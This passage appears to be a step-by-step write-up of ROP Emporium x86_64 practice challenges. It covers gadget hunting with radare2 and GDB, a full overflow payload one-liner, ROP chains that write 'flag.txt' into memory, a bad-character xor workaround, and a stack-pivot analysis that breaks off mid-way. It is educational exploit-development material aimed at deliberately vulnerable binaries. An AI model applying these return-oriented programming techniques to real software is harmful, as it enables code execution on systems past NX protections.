- Will need to pop the above address from stack into rdi register, so look for
pop rdigadget
$
r2 -A ./split
[0x004005b0]>/R pop rdi
0x004007c3 5f pop rdi
0x004007c4 c3 ret
- With rdi pointing to "/bin/cat flag.txt", return to the system() function called by usefulFunction
$
objdump -M intel --disassemble=usefulFunction ./split
[...]
0000000000400742 <usefulFunction>:
400742: 55 push rbp
400743: 48 89 e5 mov rbp,rsp
400746: bf 4a 08 40 00 mov edi,0x40084a
40074b: e8 10 fe ff ff call 400560 <system@plt>
400750: 90 nop
400751: 5d pop rbp
400752: c3 ret
[...]
Get Flag
- payload = padding + pop_rdi_addr + bin_cat_flag + call_system_addr
$
python -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\xc3\x07\x40\x00\x00\x00\x00\x00' + b'\x60\x10\x60\x00\x00\x00\x00\x00' +b'\x4b\x07\x40\x00\x00\x00\x00\x00')" | ./split
split by ROP Emporium
x86_64
Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
ROP Emporium - 03 callme x86_64
ELF Binary Info
$
rabin2 -I ./callme
arch x86
baddr 0x400000
binsz 6952
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath .
sanitiz false
static false
stripped false
subsys linux
va true
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)
Get ROP Gadgets
$
r2 -A ./callme
[0x00400760]>/R pop rdi
0x0040093c 5f pop rdi
0x0040093d 5e pop rsi
0x0040093e 5a pop rdx
0x0040093f c3 ret
0x004009a3 5f pop rdi
0x004009a4 c3 ret
[0x00400760]>
afl~callme
0x004006f0 1 6 sym.imp.callme_three
0x00400740 1 6 sym.imp.callme_two
0x00400720 1 6 sym.imp.callme_one
Get Flag
$
python get_flag.py
callme by ROP Emporium
x86_64
Hope you read the instructions...
> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
ROP Emporium - 04 write4 x86_64
ELF Binary Info
$
rabin2 -I ./write4
arch x86
baddr 0x400000
binsz 6521
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath .
sanitiz false
static false
stripped false
subsys linux
va true
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)
Find readable and writeable area of memory
- 1st terminal, run ELF binary and keep it open
- 2nd terminal, search proc maps of running process for readable and writeable memory:
$
cat /proc/$(pgrep -f ./write4)/maps | grep rw
00601000-00602000 rw-p 00001000 fe:01 656469 /<write4_filepath>
[...]
- Step through binary in GDB and search for free memory between
00601000-00602000to place "flag.txt" string - Ensure there are null bytes after chosen memory address so that null terminator does not need to be added manually
$
gdb -q ./write4
(gdb)start
(gdb)disass pwnme
Dump of assembler code for function pwnme:
[...]
0x00007fa8efa1092f <+133>: call 0x7fa8efa10770 <read@plt>
0x00007fa8efa10934 <+138>: lea rdi,[rip+0xf1] # 0x7fa8efa10a2c
0x00007fa8efa1093b <+145>: call 0x7fa8efa10730 <puts@plt>
[...]
End of assembler dump.
- Set breakpoint after read() instruction
(gdb)
b *pwnme+138
(gdb)c
Continuing.
write4 by ROP Emporium
x86_64
Go ahead and give me the input already!
> AAAAAAAA
(gdb)
x/512gx 0x601000
[...]
0x6019f0: 0x0000000000000000 0x0000000000000000
0x601a00: 0x0000000000000000 0x0000000000000000
0x601a10: 0x0000000000000000 0x0000000000000000
[...]
- Memory address
0x601a00looks like it matches criteria
Get ROP Gadgets
$
r2 -A ./write4
- Search for gadget that writes to memory
[0x00400520]>
/R mov qword
[...]
0x00400628 4d893e mov qword [r14], r15
0x0040062b c3 ret
[...]
- Search for gadget that pops r14 and pops r15
[0x00400520]>
/R pop r14
[...]
0x00400690 415e pop r14
0x00400692 415f pop r15
0x00400694 c3 ret
- Search for gadget that pops rdi
[0x00400520]>
/R pop rdi
0x00400693 5f pop rdi
0x00400694 c3 ret
- Luckily there's a function that prints from file
[0x00400520]>
pdf @ sym.usefulFunction
17: sym.usefulFunction ();
0x00400617 55 push rbp
0x00400618 4889e5 mov rbp, rsp
0x0040061b bfb4064000 mov edi, str.nonexistent ; 0x4006b4 ; "nonexistent"
0x00400620 e8ebfeffff call sym.imp.print_file
0x00400625 90 nop
0x00400626 5d pop rbp
0x00400627 c3 ret
Get Flag
$
python get_flag.py
write4 by ROP Emporium
x86_64
Go ahead and give me the input already!
> Thank you!
ROPE{a_placeholder_32byte_flag!}
ROP Emporium - 05 badchars x86_64
ELF Binary Info
$
rabin2 -I ./badchars
arch x86
baddr 0x400000
binsz 6523
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath .
sanitiz false
static false
stripped false
subsys linux
va true
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)
Find readable and writeable area of memory
- 1st terminal, run ELF binary and keep it open
- 2nd terminal, search proc maps of running process for readable and writeable memory:
$
cat /proc/$(pgrep -f ./badchars)/maps | grep rw
00601000-00602000 rw-p 00001000 fe:01 656477 /<badchars_filepath>
[...]
- Step through binary in GDB and search for free memory between
00601000-00602000to place "flag.txt" string - Ensure there are null bytes after chosen memory address so that null terminator does not need to be added manually
$
gdb -q ./badchars
(gdb)start
(gdb)disass pwnme
Dump of assembler code for function pwnme:
[...]
0x00007f97526e5987 <+141>: call 0x7f97526e57c0 <read@plt>
0x00007f97526e598c <+146>: mov QWORD PTR [rbp-0x40],rax
0x00007f97526e5990 <+150>: mov QWORD PTR [rbp-0x38],0x0
[...]
End of assembler dump.
- Set breakpoint after read() instruction
(gdb)
b *pwnme+146
(gdb)c
Continuing.
badchars by ROP Emporium
x86_64
Go ahead and give me the input already!
> AAAAAAAA
(gdb)
x/512gx 0x601000
[...]
0x6019f0: 0x0000000000000000 0x0000000000000000
0x601a00: 0x0000000000000000 0x0000000000000000
0x601a10: 0x0000000000000000 0x0000000000000000
[...]
- Memory address
0x601a00looks like it matches criteria
Get ROP Gadgets
$
r2 -A ./badchars
- Search for gadget that writes to memory
[0x00400520]>
/R mov qword
[...]
0x00400634 4d896500 mov qword [r13], r12
0x00400638 c3 ret
[...]
- Search for gadget that pops r12 and pops r13
[0x00400520]>
/R pop r12
0x0040069c 415c pop r12
0x0040069e 415d pop r13
0x004006a0 415e pop r14
0x004006a2 415f pop r15
0x004006a4 c3 ret
[...]
- Search for gadget that pops rdi
[0x00400520]>
/R pop rdi
0x004006a3 5f pop rdi
0x004006a4 c3 ret
- Luckily there's a function that prints from file
[0x00400520]>
pdf @ sym.usefulFunction
17: sym.usefulFunction ();
0x00400617 55 push rbp
0x00400618 4889e5 mov rbp, rsp
0x0040061b bfc4064000 mov edi, str.nonexistent ; 0x4006c4 ; "nonexistent"
0x00400620 e8ebfeffff call sym.imp.print_file
0x00400625 90 nop
0x00400626 5d pop rbp
0x00400627 c3 ret
- With above gadgets, string can be written to memory, popped into rdi and print_file function called (similar to previous level)
- However, this challenge prevents use of characters
'x', 'g', 'a', '.', so search for gadgets that can work around this restriction:
[0x00400520]>
/R xor byte
[...]
0x00400628 453037 xor byte [r15], r14b
0x0040062b c3 ret
[...]
- Able to xor a value in memory one byte at a time, so first xor "flag.txt" with another value e.g. "^":
"flag.txt" ^ "^^^^^^^^" == "82?9p*&*"
- Therefore
"82?9p*&*"will be initially inserted into memory at address0x601a00 - After xor'ing each char with
"^", result will be"flag.txt"again
Get Flag
$
python get_flag.py
badchars by ROP Emporium
x86_64
badchars are: 'x', 'g', 'a', '.'
> Thank you!
ROPE{a_placeholder_32byte_flag!}
ROP Emporium - 06 fluff x86_64
ELF Binary Info
$
rabin2 -I ./fluff
arch x86
baddr 0x400000
binsz 6526
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath .
sanitiz false
static false
stripped false
subsys linux
va true
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)
Find readable and writeable area of memory
- 1st terminal, run ELF binary and keep it open
- 2nd terminal, search proc maps of running process for readable and writeable memory:
$
cat /proc/$(pgrep -f ./fluff)/maps | grep rw
00601000-00602000 rw-p 00001000 fe:01 656467 /<fluff_filepath>
[...]
- Step through binary in GDB and search for free memory between
00601000-00602000to place "flag.txt" string - Ensure there are null bytes after chosen memory address so that null terminator does not need to be added manually
$
gdb -q ./fluff
(gdb)start
(gdb)disass pwnme
Dump of assembler code for function pwnme:
[...]
0x00007f160f97e92f <+133>: call 0x7f160f97e770 <read@plt>
0x00007f160f97e934 <+138>: lea rdi,[rip+0x110] # 0x7f160f97ea4b
0x00007f160f97e93b <+145>: call 0x7f160f97e730 <puts@plt>
[...]
End of assembler dump.
- Set breakpoint after read() instruction
(gdb)
b *pwnme+138
(gdb)c
Continuing.
fluff by ROP Emporium
x86_64
Go ahead and give me the input already!
> AAAAAAAA
(gdb)
x/512gx 0x601000
[...]
0x6019f0: 0x0000000000000000 0x0000000000000000
0x601a00: 0x0000000000000000 0x0000000000000000
0x601a10: 0x0000000000000000 0x0000000000000000
[...]
- Memory address
0x601a00looks like it matches criteria
Look for ROP Gadgets
$
r2 -A ./fluff
- Most of the obvious ROP gadgets from earlier levels were not present in this binary, so we need to start devling into the realms of some of the more obscure instructions
- Have a look at the binary's symbols:
[0x00400520]>
is
[...]
35 0x00000617 0x00400617 LOCAL FUNC 17 usefulFunction
36 ---------- 0x00000000 LOCAL FILE 0 /tmp/ccipmRw8.o
37 0x00000628 0x00400628 LOCAL NOTYPE 0 questionableGadgets
[...]
- Print disassembly, 10 lines, starting from
questionableGadgets
[0x00400520]>
pd 10 @ loc.questionableGadgets
;-- questionableGadgets:
0x00400628 d7 xlatb
0x00400629 c3 ret
0x0040062a 5a pop rdx
0x0040062b 59 pop rcx
0x0040062c 4881c1f23e00. add rcx, 0x3ef2
0x00400633 c4e2e8f7d9 bextr rbx, rcx, rdx
0x00400638 c3 ret
0x00400639 aa stosb byte [rdi], al
0x0040063a c3 ret
0x0040063b 0f1f440000 nop dword [rax + rax]
- Disassemble function
usefulFunction
[0x00400520]>
pdf @ sym.usefulFunction
17: sym.usefulFunction ();
0x00400617 55 push rbp
0x00400618 4889e5 mov rbp, rsp
0x0040061b bfc4064000 mov edi, str.nonexistent ; 0x4006c4 ; "nonexistent"
0x00400620 e8ebfeffff call sym.imp.print_file
0x00400625 90 nop
0x00400626 5d pop rbp
0x00400627 c3 ret
- Search for
pop rdiinstruction >[0x00400520]>/R pop rdi
0x004006a3 5f pop rdi
0x004006a4 c3 ret
Understanding Available Gadgets
stosb (Store String): Intel 64 and IA-32 Manual, page 1300
stosb byte [rdi], al: Store AL at address RDI- NOTE: After the byte is transferred from the register to the memory location, the RDI register is incremented or decremented according to the setting of the DF flag in the EFLAGS register. If the DF flag is 0, the register is incremented; if the DF flag is 1, the register is decremented (the register is incremented or decremented by 1 for byte operations, by 2 for word operations, by 4 for doubleword operations).
- With this instruction we are able to store values in memory, but we need to be able to control AL to do this.
xlatb (Table Look-up Translation): Intel 64 and IA-32 Manual, page 1948
xlatb: Set AL to memory byte [RBX + unsigned AL]- With this instruction we are able to set AL, but we need to be able to control RBX to do this.
- NOTE: Will need to correct for current value of AL each time this instruction is used.
BEXTR (Bit Field Extract): Intel 64 and IA-32 Manual, page 182
bextr rbx, rcx, rdx: Contiguous bitwise extract from RCX using RDX as control; store result in RBX- Extracts contiguous bits from RCX using an index value and length value specified in RDX.
- Bit 7:0 of RDX specifies the starting bit position of bit extraction. A START value exceeding the operand size will not extract any bits from RDX.
- Bit 15:8 of RDX specifies the maximum number of bits (LENGTH) beginning at the START position to extract.
- Only bit positions up to (OperandSize -1) of RCX are extracted.
- The extracted bits are written to RBX, starting from the least significant bit.
- All higher order bits in RBX (starting at bit position LENGTH) are zeroed.
- RBX is cleared if no bits are extracted.
- Therefore RBX can be set if we can control RCX and RDX.
- We will want to set RDX to value 0x0000000000004000 (Bit 15:8 = 0x40 to extract 64 bits; Bit 7:0 = 0x00 to start from beginning)
Contraints
pop rdx; pop rcx; add rcx, 0x3ef2- These instructions allow us to control RCX and RDX.
- NOTE: need to correct for
add rcx, 0x3ef2by placing a value 0x3ef2 lower than desired value to pop RCX.
Building ROP Chain
Goal is to store "flag.txt" string at known memory address, pop the memory address of this string, then call print_file function to get the flag. Therefore, working backwards, ROP chain will be:
- Address of
pop rdiROP gadget - Value to pop into RDI == chosen memory address where we'll store target string
"flag.txt"(e.g.0x601a00found earlier) - Loop for each memory address pointing to byte of target string
"flag.txt":- Address of
pop rdx; pop rcx; add rcx, 0x3ef2ROP gadget - Value to pop into RDX ==
0x0000000000004000 - Value to pop into RCX == target memory address of bytes that match our target string
"flag.txt", but remembering to correct for (i.e. subtracting) 0x3ef2 gadget constraint and current value of AL (section below covers how bytes of target string were found in the ELF binary) - Address of
bextr rbx, rcx, rdxROP gadget - Address of
xlatbROP gadget (NOTE: this instruction sets AL to memory byte [RBX + unsigned AL], which why current value of AL is adjusted for when setting RCX value above) - Address of
stosbROP gadget (NOTE: this instruction auto-increments RDI, so there is no need to manually adjust for this)
- Address of
- Address of
pop rdiROP gadget - Value to pop into RDI == chosen memory address where we'll store target string
"flag.txt"(e.g.0x601a00found earlier) - Address of call to
print_filefunction (i.e.0x00400620found earlier)
Searching for Bytes of Target String in ELF Binary
- Search the ELF binary for bytes that match our target string
"flag.txt"(may need to scroll up/down to locate them)
$
r2 -A ./fluff
[0x00400520]>V
- offset - 0 1 2 3 4 5 6 7 8 9 A B C D E F 0123456789ABCDEF
[...]
0x004003c0 006c 6962 666c 7566 662e 736f 005f 5f67 .libfluff.so.__g
0x004003d0 6d6f 6e5f 7374 6172 745f 5f00 7072 696e mon_start__.prin
[...]
0x004006c0 0100 0200 6e6f 6e65 7869 7374 656e 7400 ....nonexistent.
[...]
- memory address of "f" = 0x4003c8
- memory address of "l" = 0x4003c1
- memory address of "a" = 0x4003d6
- memory address of "g" = 0x4003cf
- memory address of "." = 0x4003c9
- memory address of "t" = 0x4003d8
- memory address of "x" = 0x4006c8
- memory address of "t" = 0x4003d8
Correcting for Existing Value of AL
- For 2nd iteration of loop onward (e.g. characters
"l","a","g",".","t","x","t"), then the value of AL is known (i.e. the value of the previous character) - However, for the first iteration (e.g. trying to set character
"f"), we need to look at the state of the program's registers at the point of execution, so step through program in GDB:
$
gdb -q ./fluff
(gdb)start
(gdb)disass pwnme
0x00007efc2f06392f <+133>: call 0x7efc2f063770 <read@plt>
0x00007efc2f063934 <+138>: lea rdi,[rip+0x110] # 0x7efc2f063a4b
0x00007efc2f06393b <+145>: call 0x7efc2f063730 <puts@plt>
0x00007efc2f063940 <+150>: nop
0x00007efc2f063941 <+151>: leave
0x00007efc2f063942 <+152>: ret
- Set breakpoint at
retinstruction and continue
(gdb)
b *pwnme+152
(gdb)c
Continuing.
fluff by ROP Emporium
x86_64
You know changing these strings means I have to rewrite my solutions...
> AAAAAAAA
Thank you!
- Look up current value of AL:
(gdb)
p/x $al
$1 = 0xb
- Therefore, need to adjust for
0x0bin first iteration of loop
Get Flag
- Place script the get_flag.py Python script in the same folder as the challenge's files, then run the script:
$
python get_flag.py
fluff by ROP Emporium
x86_64
You know changing these strings means I have to rewrite my solutions...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
ROP Emporium - 07 pivot x86_64
ELF Binary Info
$
rabin2 -I ./pivot
arch x86
baddr 0x400000
binsz 6973
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath .
sanitiz false
static false
stripped false
subsys linux
va true
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)
Run ELF Binary to Understand Required Inputs
$
./pivot
pivot by ROP Emporium
x86_64
Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7f5bc24b1f10
Send a ROP chain now and it will land there
> 11111111
Thank you!
Now please send your stack smash
> 22222222
Thank you!
Exiting
- Having now interacted with the program, we know that two separate inputs are required, as shown in the above output
- In the above example, the 1st input was
11111111and the 2nd input was22222222 - The program gives us a place to pivot our stack to
0x7f5bc24b1f10, but if we run the program multiple times, we can see that the pivot location changes everytime we re-run the program:
$
./pivot
The Old Gods kindly bestow upon you a place to pivot: 0x7fe029d6bf10
[...]
The Old Gods kindly bestow upon you a place to pivot: 0x7f93d81b7f10
[...]
The Old Gods kindly bestow upon you a place to pivot: 0x7fbf2be90f10
[...]
The Old Gods kindly bestow upon you a place to pivot: 0x7fac4dd64f10
[...]
The Old Gods kindly bestow upon you a place to pivot: 0x7f00e1bbef10
[...]
The Old Gods kindly bestow upon you a place to pivot: 0x7f85ec39df10
- Also note that since the pivot location is printed before the 2nd input is requested, we are able to capture it and use it as part of the 2nd input if necessary
Using GDB with a FIFO for Input
- Use two terminals to make it easier to send input to the running GDB process
1st terminal
- Make a FIFO using
mkfifo <name_of_fifo>:
$
mkfifo my_fifo
- Then open ELF binary in GDB (
-qis for quiet mode):
$
gdb ./pivot -q
- Disassemble
pwnmefunction:
(gdb)
disass pwnme
[...]
0x000000000040091d <+44>: mov rax,QWORD PTR [rbp-0x28]
0x0000000000400921 <+48>: mov rsi,rax
0x0000000000400924 <+51>: mov edi,0x400ac8
0x0000000000400929 <+56>: mov eax,0x0
0x000000000040092e <+61>: call 0x4006f0 <printf@plt>
0x0000000000400933 <+66>: mov edi,0x400b08
0x0000000000400938 <+71>: call 0x4006e0 <puts@plt>
0x000000000040093d <+76>: mov edi,0x400b34
0x0000000000400942 <+81>: mov eax,0x0
0x0000000000400947 <+86>: call 0x4006f0 <printf@plt>
0x000000000040094c <+91>: mov rax,QWORD PTR [rbp-0x28]
0x0000000000400950 <+95>: mov edx,0x100
0x0000000000400955 <+100>: mov rsi,rax
0x0000000000400958 <+103>: mov edi,0x0
0x000000000040095d <+108>: call 0x400710 <read@plt>
0x0000000000400962 <+113>: mov edi,0x400b37
0x0000000000400967 <+118>: call 0x4006e0 <puts@plt>
0x000000000040096c <+123>: mov edi,0x400b48
0x0000000000400971 <+128>: call 0x4006e0 <puts@plt>
0x0000000000400976 <+133>: mov edi,0x400b34
0x000000000040097b <+138>: mov eax,0x0
0x0000000000400980 <+143>: call 0x4006f0 <printf@plt>
0x0000000000400985 <+148>: lea rax,[rbp-0x20]
0x0000000000400989 <+152>: mov edx,0x40
0x000000000040098e <+157>: mov rsi,rax
0x0000000000400991 <+160>: mov edi,0x0
0x0000000000400996 <+165>: call 0x400710 <read@plt>
[...]
- There are two calls to
read, set breakpoint at the 2nd call toreadso that we can easily send our second input before continuing:
(gdb)
b *pwnme+165
Breakpoint 1 at 0x400996
- We also know from the line
0x000000000040094c <+91>: mov rax,QWORD PTR [rbp-0x28]that the memory address of where our 1st input is stored is on the stack atrbp-0x28, so if we dereference addressrbp-0x28(i.e. by using a command such asx/16gx *((void**) ($rbp-0x28))) when we have reached the above breakpoint we will be able to see our 1st input - Let's also print some useful info at each breakpoint by using commands below:
(gdb)
define hook-stop
>i r
>echo Pivot:\n
>x/16gx *((void**) ($rbp-0x28))
>echo Stack:\n
>x/16gx $rsp
>x/8i $rip
>end
- Setup is done, so now run the program with input from the FIFO:
(gdb)
r < my_fifo
- GDB is waiting for the 1st input, so go to the 2nd terminal to send the input
2nd terminal
- The FIFO named
my_fifohas already been created, GDB has started running our ELF binary and it's now waiting for 1st input - Let's simply echo some data and redirect to the FIFO (
-nmeans do not output the trailing newline):
$
echo -n "00000000111111112222222233333333444444445555555566666666777777778888888899999999::::::::;;;;;;;;" > my_fifo
- We know from the GDB session earlier, we've set a breakpoint just before the program asks for our 2nd input, so in the other terminal GDB will now have continued execution and reached that breakpoint
- Let's therefore send our 2nd input:
$
echo -n "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJ" > my_fifo
- Now go back to the 1st terminal to continue using GDB
Back to 1st Terminal
- Now back in GDB we are at the breakpoint just before the program reads the 2nd input, and from the steps above we know we've already sent both 1st and 2nd inputs, but we just haven't yet executed the instruction that reads the 2nd input, so let's look at GDB's output to confirm our understanding
- Instruction pointer is
0x400996and we're just before thecall 0x400710 <read@plt>instruction:
rip 0x400996 0x400996 <pwnme+165>
[...]
=> 0x400996 <pwnme+165>: call 0x400710 <read@plt>
0x40099b <pwnme+170>: mov edi,0x400b69
- Pivot address
0x7fb2f2a99f10has correctly been dereferenced and16gxof hex output has been printed from that pivot address. In addition, we can see that all 96 bytes of our 1st input00000000111111112222222233333333444444445555555566666666777777778888888899999999::::::::;;;;;;;;has successfully been stored there:
The Old Gods kindly bestow upon you a place to pivot: 0x7fb2f2a99f10
[...]
Pivot:
0x7fb2f2a99f10: 0x3030303030303030 0x3131313131313131
0x7fb2f2a99f20: 0x3232323232323232 0x3333333333333333
0x7fb2f2a99f30: 0x3434343434343434 0x3535353535353535
0x7fb2f2a99f40: 0x3636363636363636 0x3737373737373737
0x7fb2f2a99f50: 0x3838383838383838 0x3939393939393939
0x7fb2f2a99f60: 0x3a3a3a3a3a3a3a3a 0x3b3b3b3b3b3b3b3b
0x7fb2f2a99f70: 0x0000000000000000 0x0000000000000000
0x7fb2f2a99f80: 0x0000000000000000 0x0000000000000000
-
From the disassembly (
0x0000000000400950 <+95>: mov edx,0x100), we also know that the 1st input will read up to 0x100 == 256 bytes of input -
The program hasn't read in our 2nd input yet, so we expect the stack to be also be in a state just prior to receiving that 2nd input
-
Also note that for this execution
rbp-0x28 == 0x7ffd738679c0-0x28 == 0x7ffd73867998 -
Value stored at
0x7ffd73867998is0x00007fb2f2a99f10, which is our pivot address
rbp 0x7ffd738679c0 0x7ffd738679c0
rsp 0x7ffd73867990 0x7ffd73867990
[...]
Stack:
0x7ffd73867990: 0x00007ffd73867ad0 0x00007fb2f2a99f10
0x7ffd738679a0: 0x0000000000000000 0x0000000000000000
0x7ffd738679b0: 0x0000000000000000 0x0000000000000000
0x7ffd738679c0: 0x00007ffd738679e0 0x00000000004008cc
0x7ffd738679d0: 0x00007fb2f2a99f10 0x00007fb2f1a9a010
0x7ffd738679e0: 0x0000000000000000 0x00007fb2f2ac50b3
0x7ffd738679f0: 0x0000000000000031 0x00007ffd73867ad8
0x7ffd73867a00: 0x00000001f2c86618 0x0000000000400847
- Execute the next instruction and analyse the output:
(gdb)
ni
rax 0x40 64
rbx 0x4009d0 4196816
rcx 0x7fb2f2baf142 140406553243970
rdx 0x40 64
rsi 0x7ffd738679a0 140726541646240
rdi 0x0 0
rbp 0x7ffd738679c0 0x7ffd738679c0
rsp 0x7ffd73867990 0x7ffd73867990
r8 0x2 2
r9 0x2 2
r10 0x400b34 4197172
r11 0x246 582
r12 0x400760 4196192
r13 0x7ffd73867ad0 140726541646544
r14 0x0 0
r15 0x0 0
rip 0x40099b 0x40099b <pwnme+170>
eflags 0x203 [ CF IF ]
cs 0x33 51
ss 0x2b 43
ds 0x0 0
es 0x0 0
fs 0x0 0
gs 0x0 0
Pivot:
0x7fb2f2a99f10: 0x3030303030303030 0x3131313131313131
0x7fb2f2a99f20: 0x3232323232323232 0x3333333333333333
0x7fb2f2a99f30: 0x3434343434343434 0x3535353535353535
0x7fb2f2a99f40: 0x3636363636363636 0x3737373737373737
0x7fb2f2a99f50: 0x3838383838383838 0x3939393939393939
0x7fb2f2a99f60: 0x3a3a3a3a3a3a3a3a 0x3b3b3b3b3b3b3b3b
0x7fb2f2a99f70: 0x0000000000000000 0x0000000000000000
0x7fb2f2a99f80: 0x0000000000000000 0x0000000000000000
Stack:
0x7ffd73867990: 0x00007ffd73867ad0 0x00007fb2f2a99f10
0x7ffd738679a0: 0x4141414141414141 0x4242424242424242
0x7ffd738679b0: 0x4343434343434343 0x4444444444444444
0x7ffd738679c0: 0x4545454545454545 0x4646464646464646
0x7ffd738679d0: 0x4747474747474747 0x4848484848484848
0x7ffd738679e0: 0x0000000000000000 0x00007fb2f2ac50b3
0x7ffd738679f0: 0x0000000000000031 0x00007ffd73867ad8
0x7ffd73867a00: 0x00000001f2c86618 0x0000000000400847
=> 0x40099b <pwnme+170>: mov edi,0x400b69
0x4009a0 <pwnme+175>: call 0x4006e0 <puts@plt>
0x4009a5 <pwnme+180>: nop
0x4009a6 <pwnme+181>: leave
0x4009a7 <pwnme+182>: ret
0x4009a8 <uselessFunction>: push rbp
0x4009a9 <uselessFunction+1>: mov rbp,rsp
0x4009ac <uselessFunction+4>: call 0x400720 <foothold_function@plt>
- Now we can see that our 2nd input has now only partially been stored on the stack, we've actually overwritten the base pointer and the return address on the stack (
0x4848484848484848 == HHHHHHHH) - If we continue execution, we will segfault:
(gdb)
c
Continuing.
Thank you!
Program received signal SIGSEGV, Segmentation fault.
rax 0xb 11
rbx 0x4009d0 4196816
rcx 0x7fb2f2baf1e7 140406553244135
rdx 0x0 0
rsi 0x7fb2f2c8a723 140406554142499
rdi 0x7fb2f2c8c4c0 140406554150080
rbp 0x4545454545454545 0x4545454545454545
rsp 0x7ffd738679c8 0x7ffd738679c8
r8 0xb 11
r9 0x2 2
r10 0x400b34 4197172
r11 0x246 582
r12 0x400760 4196192
r13 0x7ffd73867ad0 140726541646544
r14 0x0 0
r15 0x0 0
rip 0x4009a7 0x4009a7 <pwnme+182>
eflags 0x10246 [ PF ZF IF RF ]
cs 0x33 51
ss 0x2b 43
ds 0x0 0
es 0x0 0
fs 0x0 0
gs 0x0 0
[...]
- Analysis of what happened to our 2nd input
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJ:- Only part of our 2nd input was stored on the stack, up to and including
HHHHHHHH, but everything else was ignored. This is because the 2nd call toreadonly accepts 0x40 == 64 bytes of input, as shown in the disassembly line0x0000000000400989 <+152>: mov edx,0x40. - The first 32 bytes of the 2nd input doesn't affect anything, but the following 8 bytes
EEEEEEEEwas where the base pointer was stored. - After the base pointer,
FFFFFFFFwas where the return address was stored. - After the return address, only
GGGGGGGGHHHHHHHHwas captured and the rest of the 2nd input was ignored. - Therefore we only have room for 3 ROP gadgets (or more precisely, 24 bytes), i.e. where
FFFFFFFFGGGGGGGGHHHHHHHHwas situated in our 2nd input.
- Only part of our 2nd input was stored on the stack, up to and including
- So as hinted at every point in the challenge, we should perform a stack pivot to give extra room for more gadgets
- In the next section we will search for ROP gadgets that we can use and build the ROP chain
Building ROP Chain
- Open the ELF binary in radare2:
$
r2 -A ./pivot
- We want to control the stack pointer, so let's search for gadgets that include
rsp:
[0x00400760]>
/R rsp
[...]
0x004009bb 58 pop rax
0x004009bc c3 ret
0x004009bd 4894 xchg rax, rsp
0x004009bf c3 ret
[...]
- The above gadgets are suitable for our 2nd input as we can use
pop raxfollowed by the address to pivot to, then lastlyxchg rax, rspto get our desired pivot location into rsp (this is a total of 24 bytes, it's as if the maker of this challenge had planned it this way...) - With the above ROP chain used as our 2nd input, the stack will have pivoted to where our 1st input was placed, so what ROP chain should we place there?
- Let's perform some further analysis on the binary using radare2, first by searching for functions:
[0x00400760]>
afl
[...]
0x004009a8 1 19 sym.uselessFunction
0x00400720 1 6 sym.imp.foothold_function
[...]
- Disassemble
uselessFunctionto see what it does:
[0x00400760]>
pdf @ sym.uselessFunction
19: sym.uselessFunction ();
0x004009a8 55 push rbp
0x004009a9 4889e5 mov rbp, rsp
0x004009ac e86ffdffff call sym.imp.foothold_function
0x004009b1 bf01000000 mov edi, 1 ; int status
0x004009b6 e895fdffff call sym.imp.exit ; void exit(int status)
uselessFunctioncallsfoothold_functionthen just exitsfoothold_functionis an imported function, as it is prefixed bysym.imp.so lookup the address in PLT by printing info on imports and performing an internal grep:
[0x00400760]>
ii ~ foothold_function
8 0x00400720 GLOBAL FUNC foothold_function
- Therefore
foothold_function's PLT location is0x400720 - Disassemble 3 lines at
sym.imp.foothold_function:
[0x00400760]>
pd3 @ sym.imp.foothold_function
; CALL XREF from sym.uselessFunction @ 0x4009ac
6: sym.imp.foothold_function ();
bp: 0 (vars 0, args 0)
sp: 0 (vars 0, args 0)
rg: 0 (vars 0, args 0)
0x00400720 ff251a092000 jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726 ; "&\a@"
0x00400726 6805000000 push 5 ; 5
< 0x0040072b e990ffffff jmp sym..plt
- Here we can see
foothold_function's GOT location is0x601040 - But what does
foothold_functioneven do? Quit radare2 usingqkey as many times as necessary then open the libpivot shared object file in radare2:
$
